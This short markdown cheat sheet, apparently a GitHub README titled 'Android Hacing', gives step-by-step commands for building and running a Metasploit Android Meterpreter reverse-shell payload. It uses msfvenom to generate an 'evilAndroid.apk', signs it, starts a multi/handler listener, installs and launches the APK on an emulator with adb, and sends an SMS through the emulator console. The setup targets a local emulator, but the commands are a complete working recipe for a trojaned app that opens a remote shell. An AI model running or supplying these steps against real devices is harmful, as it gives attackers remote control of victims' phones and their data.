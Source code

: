# Android Hacing

## Create an APK
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.2 LPORT=4444 R > SignApk/evilAndroid.apk
```

## Signing APK
```
java -jar signapk.jar certificate.pem key.pk8 evilAndroid.apk evilAndroidc.apk
```

## Start Metasploit Listener
```
msfconsole -L -q -x "use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST 127.0.0.1; set LPORT 4444; run"
```

## start android emulator
```
android-sdk-linux/tools/emulator @android17 -no-window 
```

## Install APK
```
adb install SignApk/evilAndroidc.apk
```

## Open the app
```
adb shell am start com.metasploit.stage/.MainActivity
```

## Sending SMS
```
telnet localhost 5554
```
```
sms send 1112223333 "Hey there"
```